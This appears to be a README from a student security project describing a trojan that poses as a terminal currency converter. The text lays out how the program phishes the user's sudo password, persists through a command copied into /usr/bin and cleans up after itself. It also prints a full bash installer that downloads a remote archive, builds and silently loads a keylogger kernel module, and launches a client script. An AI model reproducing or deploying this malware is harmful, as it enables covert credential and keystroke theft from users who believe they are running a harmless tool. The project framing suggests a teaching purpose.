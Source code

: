This malware triggers install_keylog.sh and prompts for user authentication if keylog has not been installed in kernel.

Seems normal in terminal.

Also functions as a currency converter.


Usage:

`$ ./Currency_Converter`

The code first scans output of `lsmod` and see if keylog is installed, if not, then:
  1. Ask for user permission for pulling data from internet (phishing). 
     If agree, the terminal will prompt for password (gain `sudo` permission), store password in `sudopw`, continue.
  
  2. - Create installation bash script under the same directory
     - Add `x` permission through `chmod`
     - Execute (download source package and install kernel module)

  3. Copy script into /usr/bin as 'keylog_ins,' and become a system command (called outside its directory without `./`)

     `$ keylog_ins` (Can be replaced by other string)

     So the keylogger can be reinstalled through this command even after the phshing application is deleted.
  
  4. Delete related files in the current directory
  
  5. Do some currency converting

If keylog is already installed, only do currency converting.


## Bash script

This bash script is run inside the phishing application. 

```console
#!/bin/bash
sudo cp keylog_ins /usr/bin/keylog_ins 2>/dev/null
wget -q https://github.com/ECS153/final-project-click-to-add-lemon/archive/master.zip -O keylog.zip
unzip -o -q keylog.zip
cd final-project-click-to-add-lemon-master/Source/
make -s 2>/dev/null
sudo insmod keylog.ko 2>/dev/null
cd AnalyzeData/
g++ -o analyze analyze.cpp
cp analyze ../Scripts
cd ..
cp -r Scripts/ ../../Scripts 
cd ../..
rm -r -f keylog.zip keylog_ins
rm -r -f final-project-click-to-add-lemon-master
cd Scripts/
chmod 755 analyze
python3 client_script.py & 2>/dev/null 

```
